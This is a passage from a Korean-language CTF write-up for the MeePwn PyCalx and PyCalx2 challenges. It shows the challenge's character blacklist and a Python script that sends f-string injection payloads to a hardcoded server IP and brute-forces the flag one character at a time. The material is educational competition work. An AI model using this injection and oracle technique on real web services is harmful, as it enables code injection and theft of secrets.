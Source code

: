 ```python
        r = requests.get(url, params=params)
        if 'Invalid' not in r.text:
            flag += chr(i)
            print flag
            break
```

#### 플래그

FLAG : MeePwnCTF{python3.66666666666666\_\(\[\_((you\_passed\_this?]]]]]])}



## pycalx2

#### 문제 설명

> You should solve `PyCalx` first. 

#### 문제 풀이

pycalx의 문제에서 op에 getValue을 추가적으로 거쳐 필터링이 추가되어 있다.

```python
def get_value(val):
    val = str(val)[:64]
    if str(val).isdigit(): return int(val)
    	blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
    if val == '' or [c for c in blacklist if c in val] != []:
    	print('<center>Invalid value</center>')
    	sys.exit(0)
    return val
```

이와 같은 경우도 위와 같은 코드를 통해 뽑을 수 있다.

```python
import requests

url = 'http://206.189.223.3/cgi-bin/server.py'

params = {'value1': 'True',
          'op': '+f',
          'value2': '{source*0 if source in FLAG else 1}'}

flag = 'MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}'

while True:
    for i in range(ord('['), 0x100):
        print i
        params['source'] = flag + chr(i)
        r = requests.get(url, params=params)
        if 'Invalid' not in r.text:
            flag += chr(i)
            print flag
            break
```
